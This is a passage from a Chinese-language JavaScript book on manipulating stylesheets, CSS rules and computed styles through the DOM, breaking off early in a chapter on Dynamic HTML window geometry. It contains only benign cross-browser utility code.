尽管第一个 `CSS` 规范于 1996 年引入，但从那时起经过了多次修订。初始规范被称为 `CSS1`，它包含了用于排版、对齐、间距和边距以及列表的描述符。像 `DIV` 这样的块级元素可以使用宽度和高度进行样式化，并指定边框。然而，当时还无法实现复杂的页面布局。你能做的几乎只有配置背景图像并让项目向左或向右浮动。直到 `CSS2`（级联样式表第 2 级）于 1998 年发布，才出现了真正的威力。第一次，框模型元素可以任意定位、重叠并按你喜欢的任何方式进行样式化。更复杂的选择器成为可能，引入了 `CSS` `@import`，以及一些用于多媒体渲染（包括打印）的新功能。需要注意的是，当有人提到 `CSS2` 时，他们通常指的是 `CSS2.1`，因为该修订修复了原始发布标准中的几个重要错误。

`CSS` 选择器是定义哪些元素将应用样式的一种方法。选择器的语法虽然细微但易于学习。例如，`p` 将应用于所有段落标签，而 `.p` 将应用于所有类名为 `p` 的元素。

首先，CSS 是一种文档风格的语法，其次，它是 `DOM` 的扩展。许多样式属性名称包含连字符，必须对其进行修改以适应 `DOM` 属性的规范（例如，`background-color` 变为 `backgroundColor`）。通常情况下，这些规则是删除连字符并将第二个单词的首字母大写。在其他情况下，CSS 属性名称会发生完全改变（例如，`float` 变为 `cssFloat`）。下表列出了一些最常见的样式属性、对应的 DOM 等效项以及包含可接受值的描述。此列表主要关注 CSS 标准属性，不包括特定浏览器特有的自定义属性（除非这些属性非常常见或重要）。

# styleSheet 和 Style 对象

如你所知，不是 `inline`（内联）的样式被组织在样式表中。在文档中，你可以通过 `style` 标签嵌入样式表，例如所示：

```html
<head>
<style type="text/css">
    .myClass {font-weight:bold;}
</style>
</head>
```

你也可以使用 `link` 标签或 `@import` 指令来连接外部样式表。作为 `DOM` 的一部分，这里代表了两种元素类型：`style` 和 `link`。它们都继承自标准元素类型并有自己的属性集。然而，这并不是在文档中访问样式的方法。无论你使用 `style` 还是 `link` 标签嵌入样式，你都在创建一个 `styleSheet` 对象的实例。文档中所有的 `styleSheets` 都存储在作为 `document` 对象属性的 `styleSheets` 集合中：

```javascript
var docSheets = document.styleSheets;
var numberOfSheets = docSheets.length;
```

`styleSheet` 对象具有以下属性和方法。浏览器支持信息请参阅附录 F。

从这里开始，情况会发生一些变化，取决于你使用的是 Internet Explorer 还是 Netscape、Firefox、Safari、Chrome 和 Opera 等符合 W3C 的浏览器。在 IE 中，每个 `styleSheet` 对象都有一个以 `rule` 对象形式存在的样式规则集合。该集合被称为 `rules[]` 数组 // 仅限 Internet Explorer

```javascript
var rulesInFirstStylesheet = document.styleSheets[0].rules;
var ruleCount = rulesInFirstStylesheet.length;
```

在其他浏览器中对象是 `cssRule`，集合被称为 `cssRules[]` 数组 // Firefox, Netscape, Safari, Opera, Chrome

```javascript
var rulesInFirstStylesheet = document.styleSheets[0].cssRules;
var ruleCount = rulesInFirstStylesheet.length;
```

尽管 `rule` 和 `cssRule` 对象的属性非常相似：

对于 Firefox、Netscape、Safari、Opera 和 Chrome 等 W3C 浏览器，`cssRule` 对象的一个关键属性是 `type` 属性。它告诉你是哪种类型（kind）的规则，这很重要，特别是在查找导入的样式表时。`type` 属性是一个整数，可以取以下值：

所有普通的样式规则（如类定义）类型均为 1。第二重要的属性集是 `selectorText` 属性，它返回规则的选择器定义（例如，使用我之前的示例则为 `p.myClass`），以及 `style` 对象，它是指向样式所有属性的对象引用。

# 导入的样式表

除了链接的 `styleSheets` 之外，还可以使用你已经见过的 `@import` 指令将外部样式表连接到文档中。考虑一个使用导入的外部样式表的情况。如何在 DOM 中找到它？答案取决于你使用的是 IE 还是其他浏览器。

在 Internet Explorer 中，导入包含在 `styleSheet` 对象的特殊属性中：`imports[]`。每个导入都是另一个 `styleSheet` 对象，而该对象又可以有自己的导入 // IE 导入

```javascript
var someImportRules = document.styleSheets[0].imports[0].rules;
```

在 Firefox 和 Safari 等其他浏览器中，`@import` 指令是另一个具有特殊属性 `styleSheet` 的规则。该属性是对导入项的样式表的引用 // Firefox, Netscape, Opera, Safari, and Chrome 导入：

```javascript
var someImportRules = document.styleSheets[0].cssRules[0].styleSheet.cssRules;
```

# 遍历所有样式表

虽然使用 `styleSheets` 集合获取顶层样式表列表是很容易，但考虑到导入的情况，这可能不是文档中样式表的完整列表。为了获取 `all`（所有）样式表，当你考虑到导入时，你需要遍历 `imports` 集合（在 IE 中）或 `cssRules` 集合（在其他浏览器中）。在 IE 中，你可能需要将 `styleSheets` 导出到一个数组。为了做到这一点，你首先要做的是将 `styleSheets` 放入到一个数组：

```javascript
var styleCollection = [];
// 这将跟踪我们已经查看过的样式表
var indexedStylesheets = 0;
```

然后你会想要遍历 `styleCollection`，随着发现新的样式表将其添加。对于每次迭代：

```javascript
while (indexedStylesheets < styleCollection.length) {
    for (var i = indexedStylesheets; i < styleCollection.length; i++) {
        indexedStylesheets += 1;

        if (styleCollection[i].cssRules) {
            // W3C 浏览器
            for (var x = 0; x < styleCollection[i].cssRules.length; x++) {
                if (styleCollection[i].cssRules[x].type == 3) {
                    styleCollection[styleCollection.length] = styleCollection[i].cssRules[x].styleSheet;
                }
            }
        } else {
            // Internet Explorer
            for (var x = 0; x < styleCollection[i].imports.length; x++) {
                styleCollection[styleCollection.length] = styleCollection[i].imports[x];
            }
        }
    }
}
```

当一个样式表包含 `cssRules` 集合时，你就知道它是符合 W3C 的浏览器，在 IE 的情况下，你需要遍历 `imports` 数组。最终你将得到一个所有样式表的数组，无论它们是如何包含的。你可以像我在下面的示例中那样将其抽象为一个整洁的实用函数。首先我为你展示两个外部 CSS 文件，`main.css` 它被 HTML 直接引用：

```css
@import url(shared.css);
.myClass {
    font-weight: bold;
}
```

以及 `shared.css` 它被 `main.css` 导入：

```css
.myClass1 {
    color:#000000;
}
```

然后主 HTML 文档包含了遍历所有样式表的代码，以及将结果输出到页面代码（`outputSheets()`）：

```html
<html>
<head>
    <title>Stylesheets Test</title>
    <link rel="stylesheet" type="text/css" href="main.css" />
    <style type="text/css">
        .myClass2 {
            color: red;
        }
    </style>
</head>
<script type="text/javascript">
function getSheets() {
    var styleCollection = [];
    var indexedStylesheets = 0;
    for (var i = 0; i < document.styleSheets.length; i++)
        styleCollection[styleCollection.length] = document.styleSheets[i];
    while (indexedStylesheets < styleCollection.length) {
        for (var i = indexedStylesheets; i < styleCollection.length; i++) {
            indexedStylesheets += 1;
            if (styleCollection[i].cssRules) {
                // W3C 浏览器
                for (var x = 0; x < styleCollection[i].cssRules.length; x++) {
                    if (styleCollection[i].cssRules[x].type == 3) {
                        styleCollection[styleCollection.length] = styleCollection[i].cssRules[x].styleSheet;
                    }
                }
            } else {
                // Internet Explorer
                for (var x = 0; x < styleCollection[i].imports.length; x++) {
                    styleCollection[styleCollection.length] = styleCollection[i].imports[x];
                }
            }
        }
    }
    return styleCollection;
}

function outputSheetsInformation() {
    var stylesheetList = getSheets();
    var resultContent = "";
    for (var i = 0; i < stylesheetList.length; i++)
        resultContent += "<p>Stylesheet href:" + stylesheetList[i].href + "</p>";
    document.body.innerHTML = resultContent;
}
</script>
<body onload="outputSheetsInformation()"></body>
</html>
```

当文档加载且所有外部样式表已下载完成后，`onload` 事件将触发并调用 `outputSheetsInformation()`。`getSheets()` 函数将执行迭代并返回一个包含三张样式表的集合。其中两个是外部的（`main.css` 和 `shared.css`），第三个是文档 `head` 标签中嵌入的 `style` 样式标签。在 Internet Explorer 中，你将在页面上看到如下输出：Stylesheet href: main.css

Stylesheet href:

Stylesheet href: shared.css

在 Firefox、Safari、Opera 等浏览器中，你将看到略有不同：`href` 属性显示的是 CSS 文件的完整路径，而不是相对路径：Stylesheet href: http://localhost/test/js/main.css

Stylesheet href: null

Stylesheet href: http://localhost/test/js/shared.css

稍后我将向你展示如何扩展这种技术来构建 CSS 图像预加载器，这对于让 CSS 图像在 DHTML 应用中立即显示非常有用。在 Safari 和 Konqueror 中处理样式表有时会有些棘手。不要期望在 Firefox 和 Opera 中有效的所有功能在 Safari 中同样有效。例如，`document.styleSheets` 中包含的样式表数组并不一定包含所有嵌入 `<style>` 元素的样式。此外，使用标准的 `.disabled` 方法无法轻松地禁用样式表。

# 添加和移除样式表

如果你想在文档加载后向文档挂载新的外部样式表，这种方法在 Internet Explorer 和其他浏览器之间再次有所不同。在 IE 中，你使用 `document.createStyleSheet()`，它允许向文档添加多达 31 个额外的样式表。其语法为：`oStylesheet = object.createStyleSheet( [sURL][,iIndex] )`。第一个参数 `sURL` 指定了新外部样式表的 URL。它不仅可以包含 URL，还可以包含内联 CSS 形式的样式信息。对于外部 CSS 文档，它最终会被添加到 `styleSheets` 集合中，并作为 link 对象添加到文档中。如果你为 `iIndex` 提供一个整数值，它将指示在 `styleSheets` 集合中放置引用的位置——这对于计算渲染样式可能非常重要：`document.createStyleSheet("mySheet.css");`。

在其他浏览器中，不支持这种语法。相反，你需要创建一个 link 对象并手动使用 `appendChild()` 将其附加到 DOM 中。以下实用函数根据浏览器会执行这两项操作：

```javascript
function addSheet (cssURL) {
    var ss = document.createElement("link");
    ss.type = "text/css";
    ss.rel = "stylesheet";
    ss.href = cssURL;
    if (document.createStyleSheet)
        document.createStyleSheet (cssURL);
    else
        document.getElementsByTagName("head")[0].appendChild(ss);
}
```

注意，对于非 IE 浏览器，设置 link 标签的 `type` 和 `rel` 属性至关重要，否则浏览器不会将其识别为样式表。移除样式表可以通过几种不同的方式实现。最简单的方法是将样式表的 `disabled` 属性设置为 `true`：`document.styleSheets[0].disabled= true;`。这适用于通过 `<style>` 标签链接或嵌入的样式表。如果你真的想彻底删除样式表（可能是为了替换另一个），则必须使用 DOM。首先，你需要从 `styleSheet` 对象获取 DOM 中对应样式或 link 对象的引用。在 IE 中是 `owningElement`。在其他浏览器中是 `ownerNode`。然后使用 `removeChild()` 将其从文档中删除：

```javascript
function disableSheet(index){
    var sheet = document.styleSheets[index];
    var containerEl = sheet.ownerNode || sheet.owningElement;
    if (containerEl)
        containerEl.parentNode.removeChild(containerEl);
}
```

同样，当你执行此操作时，DOM 将重流并重绘以反映新样式。

# 遍历所有规则

一旦你获取了文档中所有样式表的列表，访问所有 CSS 规则就很简单。只需遍历每张样式表的 `rules[]`（IE）或 `cssRules[]`（其他）集合即可：使用本章早期介绍的 `getSheets` 获取所有样式表

```javascript
var stylesheetList = getSheets ();
var resultContent = "";
for (var i = 0; i < stylesheetList.length; i++) {
    var ruleSet = (stylesheetList[i].cssRules || stylesheetList[i].rules);
    for (var x = 0; x < ruleSet.length; x++) {
        resultContent += "<p>Rule selectorText: " + ruleSet[x].selectorText + "</p>";
    }
}
document.body.innerHTML = resultContent;
```

如前所述，`selectorText` 属性将返回描述元素的字符串。使用此处之前的示例代码将产生如下输出：Rule selectorText : body Rule selectorText : .myClass

## 搜索规则

现在你已经了解如何遍历样式集合，构建一个可以传入搜索字符串（如类选择器）并返回规则集合的样式搜索工具很容易。如果你想通过查找样式来修改样式，这将非常有用。第一个任务是通过类似于之前的方法获取所有样式列表：

```javascript
function searchForRules(searchString, exact) {
    var stylesheetList = getSheets ();
    // 存储我们的样式列表
    var styleList = [];
    // 遍历所有表
    for (var i = 0; i < stylesheetList.length; i++) {
        var ruleSet = (stylesheetList[i].cssRules || stylesheetList[i].rules);
        for (var x = 0; x < ruleSet.length; x++) {
            if (exact && ruleSet[x].selectorText == searchString)
                styleList.push(ruleSet[x]);
            else if (!exact && ruleSet[x].selectorText.indexOf(searchString) > -1)
                styleList.push(ruleSet[x]);
        }
    }
    return styleList;
}
```

如果开发者向 `exact` 传递 `true`，它将检查每个规则并查找 `searchString` 的全匹配。如果省略 `exact` 或其为 `false`，它将对所有规则进行字符串搜索以查找匹配。返回值将包含所有匹配项的数组（如果没有找到，则返回空数组）。

# 读取和写入属性

一旦你拥有规则或 `cssRule` 对象的引用，就可以通过 `style` 对象访问其所有属性的对象表示。考虑以下示例：

```css
.myRule {
    background-color:#f0f0f0;
    width:25px;
    height:100px;
}
```

你可以通过 `style` 对象修改这些键值对属性的任何一个。例如，如果你想将样式的背景颜色从灰色改为浅蓝色，只需使用 `style` 对象的 `backgroundColor` 属性：`document.styleSheets[0].rules[0].style.backgroundColor="#ccccff";`。


你对样式属性的任何更改都会立即反映受影响的元素上。你也可以通过直接修改它们的内联（`inline`）属性来影响这些元素。例如：

```javascript
document.getElementById('myElementID').style.backgroundColor="#ccccff";
```

如果你接着检查 DOM 渲染后的 HTML，你会发现 `background-color` 属性已经嵌入到元素的 `style` HTML 属性中了：

```html
<div id="myElementID" style="backround-color: #ccccff"></div>
```

这也是你为了动态 HTML（Dynamic HTML）动画目的而修改 DOM 的方法。例如，当用户点击链接时切换一个 `div`（显示或隐藏），你可以使用类似的技术。看看这个具体的示例。首先，创建一个充当“展开或折叠”链接的超链接，以及一个包含你想显示的内容的 `div`：

```html
<a href="#" onclick="return toggleContent(this);" id="readMore">点击阅读更多！</a>
<div id="readMoreContent" style="display: none;">
    我们的组件被国际组件评级学院评为比其他领先组件快 22%，且更耐用。尝试我们的免费样本并亲自发现吧！
</div>
```

在这个示例中，我将超链接的 `onclick` 事件连接到一个名为 `toggleContent()` 的函数，并将链接的引用作为参数传递。超链接和包含我要显示的内容的 `div` 具有相同的 ID 根节点（`readMore` 和 `readMoreContent`）。我将使用对象引用和 `ID` 来获取 `div` 的引用。

由于我将 `display:none` 属性内联写在 HTML 的 `style` 属性中，我将能够通过 `DIV` 的 `style` 属性读取回它。如果样式是继承的而不是内联的，我将无法这样做。相反，我可以尝试确定 `div` 的计算样式（computed style）——我将在名为“计算样式”（Computed Styles）的章节中讨论这个主题。

现在看看 `toggleContent()` 函数，它会在用户点击时隐藏或显示 `div`：

```javascript
function toggleContent (hrefObj) {
    var divID = hrefObj.id + "Content";
    var divObj = document.getElementById(divID);
    if (divObj.style.display == "none")
        divObj.style.display = "block";
    else
        divObj.style.display = "none";
    return false;
}
```

首先，我通过从超链接的 ID 构建 `ID` 来获取 `div` 的引用。接下来，我检查 `div` 的内联显示样式属性，查看它是 `block`（可见）还是 `none`（隐藏）。在设置新属性后，我从函数返回 `false`，防止超链接的默认行为。

## 添加和删除规则

动态创建一个新的 CSS 规则需要一些工作。在你可以任意创建一个规则之前，你必须创建一个样式表来放置该规则。你也可以将其追加到现有的样式表中，但不能保证文档甚至*拥有*一个样式表。因此，在向文档添加新规则之前，让我们获取一个样式表的引用（如果有必要，则创建一个）：

```javascript
// 检查是否存在任何我们可以追加此规则的样式表。
if (document.styleSheets.length > 0)
    var cssObj = document.styleSheets[0];
else
    if (document.createStyleSheet)
        var cssObj = document.createStyleSheet();
    else {
        // 我们处于一个符合 W3C 的浏览器中，让我们创建一个表。
        var ss = document.createElement("style");
        ss.type = "text/css";
        document.getElementsByTagName("head")[0].appendChild(ss);
        var cssObj = document.styleSheets[0];
    }
```

现在你保证在 `cssObj` 中拥有一个 `styleSheet` 引用，你可以添加规则了。在 Internet Explorer 中，你可以使用 `styleSheet` 对象上的 `addRule()` 方法，其语法如下：

`plNewIndex = styleSheetObject.addRule(sSelector, sStyle[,iIndex])`

第一个参数 `sSelector` 是一个包含规则选择器定义的字符串（例如 `p.className`）。如果你喜欢，这也可以是一个用逗号分隔的选择器列表。第二个参数 `sStyle` 是一个包含所有样式属性的字符串。它的格式应该与你在 CSS 文档中编写样式完全相同，每个属性用分号分隔，键值对之间用冒号分隔（例如 `"color:black;width:125px;`）。最后一个可选参数是规则集合中放置规则的序数位置。默认情况下，它位于末尾 (-1)。这很重要，因为规则出现的顺序会影响计算样式。

让我们使用 IE 的 `addRule()` 创建一个样式：

```javascript
if (cssObj.addRule)
    cssObj.addRule(".myClass", "background-color: yellow; border: 1px solid black;");
```

在其他浏览器中你使用 `insertRule()` 方法，其语法如下：

`styleSheetObject.insertRule(sRule, iIndex)`

与 Explorer 不同，不是将选择器和样式字符串分开，而是直接将它们合并成一个在样式表内部显示的规则定义。为了在 Firefox、Safari、Chrome 或 Opera 中你可以这样做：

```javascript
//...
else
    cssObj.insertRule(".myClass{background-color: yellow; border: 1px solid black;}", 0);
```

这里是将相同代码封装成的单个工具函数：

```javascript
function addNewRule(selector, ruleText) {
    if (document.styleSheets.length > 0)
        var cssObj = document.styleSheets[0];
    else
        if (document.createStyleSheet)
            var cssObj = document.createStyleSheet();
        else {
            var ss = document.createElement("style");
            ss.type = "text/css";
            document.getElementsByTagName("head")[0].appendChild(ss);
            var cssObj = document.styleSheets[0];
        }
    if (cssObj.addRule)
        cssObj.addRule(selector, ruleText);
    else
        cssObj.insertRule(selector + '{' + ruleText + '}', 0);
}
```

要删除规则，你在 Internet Explorer 中使用 `removeRule()` 方法，其语法如下：

`styleSheetObject.removeRule([iIndex])`

参数 `iIndex` 是规则集合中要删除规则的序数位置。如果你不指定 `iIndex`，它将移除第一个规则。在其他浏览器中，有对应的 `deleteRule()` 方法，语法类似：

`styleSheetObject.deleteRule(iIndex)`

与 IE 不同，这里的 `iIndex` 参数是强制性的。要删除第一个规则，传递 0，而最后一个规则是 `cssRules.length-1`。这是一个删除第一个样式表中最后一个规则的简单工具函数：

```javascript
function deleteLastRule() {
    var styleObj = document.styleSheets[0];
    if (styleObj.cssRules)
        styleObj.deleteRule(styleObj.cssRules.length-1);
    else
        styleObj.removeRule(styleObj.cssRules.length-1);
}
```

## 计算样式

我已经向你展示了如何使用 CSS 的样式表示来读取和写入样式属性。例如，你可以通过 `document.getElementById('myDivID').style.backgroundColor` 读取 `div` 的内联 `backgroundColor` 属性。

然而，大多数情况下这并不是实用的解决方案，因为并不是应用于元素的样式属性都是*内联*的——它们是继承的。当浏览器渲染元素时，它会根据流向该点的 DOM 树的所有级联样式来*计算*样式。如果你在样式表中有一个适用于所有 `div` 的规则定义，如下：

```css
div{
    background-color:yellow;
}
```

如果你尝试通过 `div` 元素的直接样式对象执行相同的操作，你将无法从 `backgroundColor` 中获取任何值。为什么呢？因为元素的 `style` 对象只包含内联（`inline`）属性。相反，你需要的是**计算后的样式**（computed style）。在 Internet Explorer 中，你可以通过 `currentStyle` 对象获取它，它与 `style` 相同但包含了计算后的样式。遗憾的是，这是一个只读对象。如果你想进行更改，必须回到 `style` 对象进行操作。要获取计算后的 `backgroundColor`，只需将 `style` 替换为 `currentStyle`即可：`document.getElementById('myDivID').currentStyle.backgroundColor`。

在 Firefox、Safari、Opera 或 Chrome 等符合 W3C 标准的浏览器中，使用 `document.defaultView.getComputedStyle()` 方法，其语法如下：

`styleObj = document.defaultView.getComputedStyle(element, pseudoElt);`

你也可以通过 `window` 对象访问 `getComputedStyle()`。大多数情况下，你唯一需要考虑的参数是 `element`，它是指向目标节点的 DOM 引用。要使用这种方法对 `backgroundColor` 执行相同的操作，可以这样写：

`document.defaultView.getComputedStyle(document.getElementById('myDivID')).backgroundColor`

在下面的演示中，我构建了一个简单的工具函数，它根据浏览器进行分支，并返回给定 DOM 节点的计算后属性：

```html
<html>
<head>
    <title>Getting the Computed Style</title>
    <style type="text/css">
        .myCSSClass {
            background-color:yellow;
            border: 1px dotted black;
        }
    </style>
</head>
<script type="text/javascript">
function computeStyle(myDivID, styleAttr) {
    var elObj = document.getElementById(myDivID);
    if (elObj.currentStyle)
        var computed = elObj.currentStyle;
    else
        var computed = document.defaultView.getComputedStyle(elObj, null);
    return computed[styleAttr];
}
</script>
<body>
<div class="myCSSClass" id="myDiv">
    我们的小部件经国际部件评级学院评定比其他领先小部件快 22%且更耐用。尝试我们的免费样品并亲自验验吧！
</div>
<button onclick="alert(computeStyle('myDiv', 'backgroundColor'));">获取背景的计算样式</button>
</body>
</html>
```

关于计算后样式需要注意的一点是，不同浏览器返回的字符串存在差异。在 Internet Explorer 中，宽度和内边距等属性单位将按照它们在样式表中完全所示的形式返回（例如 "12px" 或 "1em"），而像 Firefox 这样的 W3C 浏览器会将这些值归一化为其他格式。同样，当在 W3C 浏览器中获取十六进制颜色时，它们会被转换为 RGB 值（例如 "rgb(10,12,150)"），但在 IE 中，它们将按照它们在样式表中完全所示的形式返回。

## IE 的 filter 对象

从 Internet Explorer 4.0 开始，可以使用一种专有的（对 IE 而言）的 CSS 属性 `filter` 在网页上叠加丰富的多媒体风格的视觉效果。在尚未支持 32 位图像的时代，这是一个强大的工具。如今，`filter` 仅用于为 Internet Explorer 6 及以下版本提供向后兼容的 32 位 PNG 支持和透明度。由于该属性仍然具有相关性，查看设置过滤器与其他 CSS 属性之间的语法差异是值得关注的。

在 CSS 类中，你可能使用以下属性描述符在元素上指定 32 位 PNG 背景：

```css
.mySemiOpaqueDiv {
    filter:progid:DXImageTransform.Microsoft.AlphaImageLoader(src='myimage.png', sizingMethod='scale');
}
```

要用 JavaScript 实现等效操作，你必须保留对 `progid` 的引用。实现方式如下：

```javascript
var divObj = document.getElementById('myDiv');
divObj.style.filter['DXImageTransform.Microsoft.AlphaImageLoader'].src = "myimage.png";
divObj.style.filter['DXImageTransform.Microsoft.AlphaImageLoader'].sizingMethod = "scale";
```

当你开始涉及这类 DirectX 过滤器时，请务必对你的页面进行严格测试，以确保稳定兼容性。CSS 过滤器在某些情况下会导致不稳定和性能下降。

## 总结

在本章中，你探索了许多与使用 CSS 相关的主题。具体来说，你学习了：

- 自从首次发明以来，CSS 规范已经经过多次修订。现代浏览器支持直到 2.1 版本的大部分规范，极少数浏览器已支持仍处于初步阶段的 CSS3 标准。

- 样式在 DOM 中以多种方式表示。有 `link` 和 `style` HTML 元素。导航规则更有效的方法是通过 `styleSheets` 集合，它包含了文档中所有顶层样式表的列表。

- 在 Internet Explorer 中，你通过 `rules[]` 数组访问样式表的规则集。在其他浏览器中，这被称为 `cssRules[]`，但在其他方面是相同的。

- 读取和写入样式属性通过 `style` 对象实现。而处理 `computed` 样式（计算后的样式，即在应用所有规则后应用于元素上的样式）在 IE 中可以通过 `currentStyle` 对象实现。在其他浏览器中，通过调用 `document.defaultView.getComputedStyle()` 访问该对象。

在第 16 章中，我将 CSS 进一步推了一步。CSS 是动态 HTML（Dynamic HTML）编程的基石，你用它让页面变得生动。通过 DHTML，你可以制作元素动画、创建拖放功能，并让页面真正变得 `dynamic`。

# 16 动态 HTML

虽然 HTML、XHTML、CSS 和 JavaScript 等术指的是特定的技术，但 `Dynamic HTML`（`DHTML`）指的并不是一个具体的特性，而是技术的集合以及一种让网页活跃的方法。DHTML 涉及使用 JavaScript 通过操作 DOM 和使用 CSS 操作页面上的元素来控制页面上的 HTML。开发社区对于 DHTML 是否真的与 `Progressive Enhancement`（渐进式增强）、`Ajax` 或 `DOM Scripting` 等方法有所不同存在一些歧义。在大多数情况下，这些术语指的是非常相似的内容，你使用这些方法所做的也可以被视为动态 HTML，因为它们涉及了 JavaScript、CSS 和 DOM 的使用。

在 DHTML 的伞下，你可以产生的一系列可能的效果和交互。你在网页浏览器中看到的绝大多数超出静态 HTML 范围的现象，如模态窗口、拖放和简单动画，都是通过 DHTML 实现的。在这方面，通过创造性地应用你已经过的某些核心概念（包括面向对象开发、非侵入式事件模型、DOM 和 CSS），可以实现惊人的创新。

多年来，DHTML 技术一直受到相当多的批评。有些人认为，如果你在浏览器中使用动态特性，它将是 `accessible`（可访问的）。另一些人坚持认为浏览器之间的差异使得调试和通常提供质量保证是一项不可逾越的任务。近年来，由于浏览器厂商之间快速的现代化和合作，网络已经接受了 DHTML 技术。在大多数情况下，主流浏览器都以非常相同的方式支持同一套技术，使得可以 `layer on`（叠加）一些丰富的用户界面行为，而无需花费太多时间调试代码。像 Firebug 或 IE Web Developer Toolbar 这样非常好调试工具的出现也让处理 DHTML 变得简单得多，并使其成为大多数 JavaScript 开发者的可行工具。即用组件和 JavaScript 框架的普及也让实现动态特性变得容易得多。

由于 DHTML 大程度上关于技术的结合，在本章中，我将介绍许多你可以在自己的 Web 中构建并复用的方法，为页面添加额外的交互层。在大多数情况下，我将使用已经介绍的概念，所以如果你已经读过关于事件、DOM 和 CSS 的章节，你就能很好地掌握开发者如何使用 DHTML 构建丰富的用户界面。首先，我将介绍 CSS 在 DHTML 中的作用，并介绍几种按钮悬停（button rollovers）技术，这是 DHTML 最早且最用法之一。之后，我将深入探讨定位问题、颜色、透明度和动画。最后，我将用几个常见的 DHTML 示例（如模态对话框和 HTML 表单的验证提示）结束本章。

## CSS 的作用

向元素应用针对性的 CSS 属性是 DHTML 的基石。当你想要以某种方式改变面的物理外观时，你必须以更动态的方式考虑对象的 CSS 状态。例如，考虑一个折叠区域的情况。为了连接一个 `div`，使其在点击按钮时显示，在再次点击时消失，你需要考虑元素 CSS 可能处于各种状态：

- **Initial state（初始状态）：** `div` 是可见还是隐藏的？你是通过给 `div` 应用带有 `display:none` 的 CSS 类来实现的，还是直接在 HTML 中设置内联 CSS 属性？

- **Transition state（过渡状态）：** 当用户点击显示 `div` 时，它在那一刻的 CSS 是什么样的？你需要将 `div` 从不可见状态动画到可见状态（这需要一个 `tween`），还是一个简单的切换（toggle）？在切换的情况下，可能只需要给元素应用一个新的 CSS 类即可。

- **Resting or revert state（静止或恢复状态）：** 元素是恢复到它的原始状态，还是 CSS 需要处于第三种状态？同样，这仅仅是 `undoing`（撤销）过渡状态的变化，还是比这更复杂？

很多时候，DHTML 行为可以通过动态添加或移除 CSS 类来实现。为此，编写基础的 `addClass()` 和 `removeClass()` 工具函数是有用的，这些函数负责解析元素的 `className` 字符串以获取类名。我将从一个根据元素是否具有特定类来返回真或假的函数开始：

```javascript
function hasClass(el, classNm) {
    var cNames = el.className.split(' ');
    for (var i = 0; i < cNames.length; i++)
        if (cNames[i] == classNm)
            return true;
    return false;
}
```

它通过通过空格分隔符将 `className` 字符串拆分成数组，然后遍历每个类并比较字符串。这样做是因为当一个元素应用了多个类时，它看起来像 "myClass0 myClass1 myClass2"。这个函数对于根据应用的类确定元素的状态有用。我将在下面的 `addClass()` 工具中使用它：

```javascript
function addClass(el, classNm) {
    if (!hasClass(el, classNm))
        el.className+= " " +classNm;
}
```

通过编程添加类只需检查类是否已经应用，如果没有，则将其作为字符串添加到 `className` 中。移除类要复杂一些，因为它涉及到遍历数组中的每个类，将匹配项置空，然后重新组装字符串：

```javascript
function removeClass(el, classNm) {
    var cNames = el.className.split(' ');
    for (var i = 0; i < cNames.length; i++)
        if (cNames[i] == classNm)
            cNames[i] = "";
    el.className = cNames.join(' ');
}
```

通过这种方式，你可以对 DOM 的外观产生巨大的影响。正如你在第 15 章看到的，这并不是动态更改 CSS 的唯一方法。很多时候，你只是在随着时间的推移*微调* CSS 属性，例如位置属性、透明度或颜色。通过对 `top`、`left`、`color`、`width` 和 `height` 等 CSS 属性进行微小但迭代的更改，创造了动画的幻觉。当你尝试这些属性时，请务必参考第 15 章，查询带有对应 DOM 属性名的 CSS 属性表。当然，当你处理 CSS 时，还必须记住 `DOCTYPE` 对 CSS 确切*如何*渲染的影响。在第 13 章中，我详细说明了文档类型如何改变不同浏览器对 CSS 的解释方式。

## 窗口与文档几何结构

我尚未谈到的 DOM 和窗口的剩余关键特性之一是*几何结构*（geometry）。我据此指的是窗口本身的布局特性，包括可视框架的*宽度*和*高度*，以及文档本身的*宽度*和*高度*。如果你需要在页面上对元素进行*绝对*定位（通过 X 和 Y 坐标），你可能需要知道这些，例如当你想显示一个自定义对话框且它必须位于用户显示中间时。遗憾的是，在图 16-1 中看到的属性在不同浏览器*或*文档类型中的存在方式并不相同。图 16-1 获取大多数浏览器中的窗口，只需检查非标准的 `window.innerWidth` 和 `window.innerHeight` 属性。这将告诉你窗口宽度，*包括滚动条*，无论文档类型如何。这在 Opera 8+、Firefox、Safari 和 Chrome 中均有效。但在 Internet Explorer 中，不支持这种方法。相反，你必须查看文档的 `clientWidth` 和 `clientHeight`。遗憾的是，何代表文档的合适元素取决于你处于*怪异*模式（quirks）还是*标准*模式（standards）。在怪异模式下，你通过 `document.body` 获取，在标准模式下则通过 `document.documentElement` 获取：

```javascript
var doc = (document.compatMode == 'CSS1Compat') ? document.documentElement : document.body;

if (window.innerWidth) {
    // 大多数浏览器中的浏览器尺寸（FF, Opera, Safari, Chrome）
    var browserWidth = window.innerWidth;
    var browserHeight = window.innerHeight;
} else {
    // IE
    var browserWidth = doc.clientWidth;
    var browserHeight = doc.clientHeight;
}
```

这只是等式的一半。要获取文档尺寸，情况会变得复杂一些。首先，让我们定义*文档尺寸*。如果你有一个非常小的文档，高度只有 100 像素，但窗口高度为 500 像素，那么文档的高度是 100 像素还是 500 像素呢？对于大多数用途来说，说文档的高度和宽度*至少*与窗口一样大但可能更大是正确的。然而，浏览器内部可能并不以这种方式表示它。你需要检查文档是否小于窗口。如果是，则使用窗口值。要获取文档尺寸的内部表示，请使用文档元素的 `scrollWidth` 和 `scrollHeight` 值。再次，参考我根据 `DOCTYPE` 创建的 `doc` 变量：

```javascript
var bodyWidth = Math.max(doc.scrollWidth, browserWidth);
var bodyHeight = Math.max(doc.scrollHeight, browserHeight);
```

除了窗口的实际尺寸外，了解是否有足够的内容进行滚动有时是有用的。这在判断是否存在滚动条时有用。这通过比较文档的高度、宽度与浏览器的高度、宽度来实现：

```javascript
var scrollX = (bodyWidth > browserWidth);
var scrollY = (bodyHeight > browserHeight);
```

将所有这些封装成一个紧凑的实用函数，看起来可能像这样：

```javascript
function getWindowGeometry() {
    var doc = (!document.compatMode || document.compatMode == 'CSS1Compat') ?
        document.documentElement : document.body;

    if (window.innerWidth) {
        // 大多数浏览器
        var browserWidth = window.innerWidth;
        var browserHeight = window.innerHeight;
    } else {
        // IE
        var browserWidth = doc.clientWidth;
        var browserHeight = doc.clientHeight;
    }

    var bodyWidth = Math.max(doc.scrollWidth, browserWidth);
    var bodyHeight = Math.max(doc.scrollHeight, browserHeight);
    var scrollX = (bodyWidth > browserWidth);
    var scrollY = (bodyHeight > browserHeight);

